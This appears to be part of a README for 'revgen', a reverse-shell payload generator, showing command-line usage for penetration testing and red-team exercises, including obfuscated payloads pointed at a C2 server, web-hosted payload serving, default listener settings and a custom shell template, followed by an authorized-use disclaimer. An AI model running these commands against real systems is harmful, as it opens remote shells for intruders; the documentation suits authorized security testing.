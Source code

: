 ### Penetration Testing
```bash
# Generate all payloads for comprehensive testing
revgen --auto-ip --port 4444 --all --server

# Test specific interpreter availability
revgen --ip target_ip --port 4444 --lang python3 --copy
```

### Red Team Exercises
```bash
# Stealthy obfuscated payload
revgen --ip c2_server --port 443 --lang python --obfuscate --copy

# Web-hosted payloads for team coordination
revgen --ip c2_server --port 4444 --all --server --server-port 8080
```

---

## 🛠️ Advanced Configuration

### Environment Variables
```bash
export REVGEN_DEFAULT_IP="192.168.1.100"
export REVGEN_DEFAULT_PORT="4444"
export REVGEN_FANCY_MODE="true"
```

### Custom Shell Templates
Edit `shells.json` to add your own payload templates:
```json
{
  "shells": {
    "custom_shell": {
      "name": "Custom Shell",
      "payload": "your_custom_command {ip} {port}",
      "description": "Your custom reverse shell",
      "requirements": "custom_interpreter"
    }
  }
}
```

---

## 🔒 Security & Legal

### ⚠️ **IMPORTANT DISCLAIMER**

This tool is for **educational purposes**, **authorized penetration testing**, and **security research** only.

